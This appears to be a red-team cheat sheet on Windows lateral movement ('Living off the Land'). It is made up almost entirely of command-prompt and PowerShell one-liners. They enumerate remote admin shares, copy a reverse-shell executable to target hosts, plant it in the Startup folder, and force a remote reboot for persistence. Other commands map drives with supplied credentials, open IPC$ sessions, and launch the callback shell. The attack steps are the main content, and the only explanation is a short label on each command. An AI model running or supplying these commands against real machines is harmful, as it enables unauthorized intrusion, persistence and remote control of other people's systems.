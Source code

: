 # Living off the Land

Search Tag(s): #lateral-movement #remote-file-access #windows

## 01 - List Files and Directories

### 1.1 - Command Prompt

- List files and directories remotely

`C:\> dir \\<IP>\c$`

- List all the files and directories

`C:\> dir /s /b \\<IP>\c$ > files.txt`

### 1.2 - Powershell

- List files and directories remotely

`PS C:\> Get-ChildItem \\<IP>\c$`

- List all the files and directories

`C:\> ChildItem -Recurse \\<IP>\c$ > files.txt`

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy files remotely

```
C:\> copy shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy <source> <destination> <files>

C:\> robocopy \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown /t 0 /r /m \\<IP>
```

### 2.2 - Powershell

#### 2.2.1 - Copy files remotely

- Method 1:

`PS C:\> Copy-Item shell.exe -destination \\<IP>\c$\shell.exe`

- Method 2:

Copy the callback shell and execute it via powershell cmdlet

```
PS C:\> $ip = New-PSSession -Computer <IP>

PS C:\> Copy-Item "C:\path\to\shell.exe" -Destination "C:\path\to\folder\" -ToSession $ip

PS C:\> icm -Session $ip -ScriptBlock { C:\path\to\shell.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net use Z: \\<IP>\c$

C:\> net use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net use Z: /delete
```

### 3.2 - Powershell

```
PS C:\> New-PSDrive -Name new_disk -PSProvider FileSystem -Credential $cred \\<IP>\<share_name>

PS C:\> Get-ChildItem new_disk:

PS C:\> Remove-PSDrive -Name new_disk
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net view \\<IP>
```

Ignore the authentication while authenticating session

`C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1`

## 05 - Spawn Callback Shell

### 5.1 - Command Prompt

`C:\> cmd.exe /q /c "C:\path\to\shell.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1`

---
## References

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)